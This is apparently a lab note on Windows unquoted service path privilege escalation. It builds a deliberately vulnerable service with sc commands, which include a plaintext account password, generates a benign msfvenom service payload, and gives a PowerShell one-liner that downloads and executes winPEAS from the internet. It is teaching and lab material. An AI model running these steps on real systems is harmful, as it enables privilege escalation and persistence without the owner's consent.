

# UNQUOTED SERVICE PATH

# SUMMARY

Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.

Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.

This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.

# MITRE



- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "Threathunt25"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in "C:\MyPrograms\" named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)

# Generate a simple MSFVenom service payload that pops a text box

On Kali:

```bash
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f exe-service -o Vulnerable.exe
```

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```


> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `Code-Execution` and `Persistence`!!!